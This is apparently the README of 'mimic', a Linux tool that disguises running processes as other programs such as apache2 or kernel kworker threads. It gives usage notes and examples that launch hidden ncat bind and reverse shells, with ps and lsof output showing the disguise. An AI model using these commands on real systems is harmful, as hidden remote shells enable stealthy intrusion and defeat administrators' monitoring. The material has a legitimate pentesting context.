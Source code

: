 # mimic

_mimic_ is a tool for covert execution on Linux x86\_64.

**What is "covert execution"?**

Covert execution is the art of hiding a process. In this case, _mimic_ hides the process in plain sight. _mimic_ can launch any program and make it look like any other program. Any user can use it. It does not require special permissions. It does not require special binaries. It does not require a root kit.

**What?! No special privileges??**

That is correct. _mimic_ works by rearranging the internal structures of a process in such a way that it confuses the /proc entry for that process. All tools that report the nature of a process do so by examining /proc. If we can bend /proc, then we can hide a process in plain sight. Since we are only altering the state of a process we own, anyone can successfully run _mimic_.

**Can this be detected?!**

Of course, but only if you are looking very closely, or running a forensic tool that is looking for this sort of thing. The usefulness behind _mimic_ is that it will prevent someone from becoming suspicious in the first place.

**Will this work with scripts?**

Yes, but you need to call mimic directly on the interpreter. For example, if the first line of your script is "#!/usr/bin/perl" then you'll want to call _mimic_ like this:

	empty@monkey:~$ mimic -e "/usr/bin/perl test.pl" 

By invoking the interpreter directly, mimic can work it's magic.

**Who is the target audience for _mimic_?**

Anyone who legitimately needs covert execution before they have gotten root. This includes, but is not limited to:
 * Pentesters.
 * Investigators performing covert operations (with the prior approval of their Legal and HR departments, of course.)

**Why is it called "_mimic_"?**

Because "Liar, liar, /proc on fire!" was too long.

**What is "set_target_pid"?**

set_target_pid is a small helper program in the mimic suite that will exhaust pids until the one you want comes back around. This allows you to choose where in the process listing you want your process to sit. Note that the kernel reserves the first 300 pids for kernel threads. If you try to go below that, you'll probably end up running with pid 301.


## Usage ##

	usage: mimic -e COMMAND [-m MIMIC] [-b] [-a KEY=VALUE] [-q] [-h]
		-e	Execute COMMAND.
		-m	Setup COMMAND to look like MIMIC.
				Default for non-root is:    "/usr/sbin/apache2 -k start"
				Default for root is:        "[kworker/0:0]"
		-b	Launch COMMAND in the background.
		-a	Add / overwrite KEY to the mimic environment with associated VALUE.
		-q	Be quiet! Do not print normal output.
		-h	Print this helpful message.
	
		Notes:
			The MIMIC environment will be a copy of the COMMAND environment.
			The '_' variable is automatically changed.
			The -a flag can be called multiple times to add / overwrite multiple variables.
	
		Examples:
			mimic -e /bin/bash
			set_target_pid 1 && mimic -e /bin/bash
			mimic -b -e "./revsh"
			mimic -b -e "nc -l -e /bin/bash"
			mimic -b -e "nc -l -e \"mimic -e /bin/bash\""


## Examples ##

First example - Launching a netcat listener as a regular user:

	empty@monkey:~$ ./mimic -b -e "/usr/local/bin/ncat -l -e \"./mimic -e /bin/bash\""
	Launching child...                  Success!
	Waiting for child to attach...      Success!
	Initializing ptrace_do...           Success!
	Determining stack state...          Success!
	Politely requesting name change...  Success!
	Searching for main()...             Success!
	Building execution headers...       Success!
	Setting up final state...           Success!
	
		Good-bye and have a good luck! :)
	
	empty@monkey:~$ ps aux | grep apache
	empty     1931 19.5  0.0  16648  1324 pts/1    S    21:41   0:02 /usr/sbin/apache2 -k start
	empty     1935  0.0  0.0   7596   836 pts/1    S+   21:41   0:00 grep apache
	
	empty@monkey:~$ sudo lsof -i -n -P | grep apache
	[sudo] password for empty: 
	apache2  1931 empty    3u  IPv6  14462      0t0  TCP *:31337 (LISTEN)
	apache2  1931 empty    4u  IPv4  14463      0t0  TCP *:31337 (LISTEN)

Second example - Launching a netcat reverse shell as root:

	root@monkey:~$ /home/empty/code/mimic/set_target_pid 1 && /home/empty/code/mimic/mimic -b -q -e "/usr/local/bin/ncat -e \"/home/empty/code/mimic/mimic -e \\\"/bin/bash\\\"\" localhost 9999"
	
Can you spot the fake kworkers? Would you be able to without the help of grep?

	root@monkey:~$ ps aux | grep kworker | grep -v grep
	root        18  0.0  0.0      0     0 ?        S    19:39   0:00 [kworker/3:0]
	root       197  0.0  0.0      0     0 ?        S    19:39   0:06 [kworker/u:3]
	root       198  0.0  0.0      0     0 ?        S    19:39   0:06 [kworker/u:4]
	root       199  0.0  0.0      0     0 ?        S    19:39   0:06 [kworker/u:5]
	root       302 23.4  0.0  18748  1912 pts/5    S    22:28   0:02 [kworker/0:0]
	root       304 11.4  0.0   3780   296 pts/5    S    22:28   0:00 [kworker/0:0]              
	root       305 10.8  0.0  10644  1200 pts/5    S    22:28   0:00 [kworker/0:0]
	root       426  0.0  0.0      0     0 ?        S    20:20   0:00 [kworker/1:0]
	root       434  0.0  0.0      0     0 ?        S    20:20   0:00 [kworker/3:2]
	root       536  0.0  0.0      0     0 ?        S    20:12   0:00 [kworker/0:0]
	root       879  0.0  0.0      0     0 ?        S    20:39   0:00 [kworker/2:0]
	root      1463  0.0  0.0      0     0 ?        S    19:39   0:00 [kworker/1:2]
	root      2132  0.0  0.0      0     0 ?        S    19:47   0:00 [kworker/2:2]
	root      2607  0.0  0.0      0     0 ?        S    20:01   0:01 [kworker/0:1]
	
 Of course, no kworker should have an open socket, but I'm sure you can be more creative with your naming choices than this. :)

	root@monkey:~$ lsof -i -n -P | grep kworker
	kworker/0  302  root    4u  IPv4  20546      0t0  TCP 127.0.0.1:47054->127.0.0.1:9999 (ESTABLISHED)
	kworker/0  304  root    4u  IPv4  20546      0t0  TCP 127.0.0.1:47054->127.0.0.1:9999 (ESTABLISHED)
	kworker/0  305  root    4u  IPv4  20546      0t0  TCP 127.0.0.1:47054->127.0.0.1:9999 (ESTABLISHED)

Note that I'm running here as root only because a kworker thread should be *very* suspicious running as a non-root user. The new mimic name is just a string. It doesn't have to be an existing process. Hell, it doesn't even have to be a real thing!

	empty@monkey:~$ code/mimic/mimic -q -e /bin/bash -m "Totally not a rootkit\!"
	
	empty@monkey:~$ ps aux | grep rootkit | grep -v grep
	empty      399  2.9  0.0   3780   300 pts/4    S    22:34   0:00 Totally not a rootkit!          
	empty      400  2.7  0.0  19372  2044 pts/4    S    22:34   0:00 Totally not a rootkit!


## Installation ##

	git clone https://github.com/emptymonkey/ptrace_do.git
	cd ptrace_do
	make
	cd ..
	
	git clone https://github.com/emptymonkey/mimic.git
	cd mimic
	make
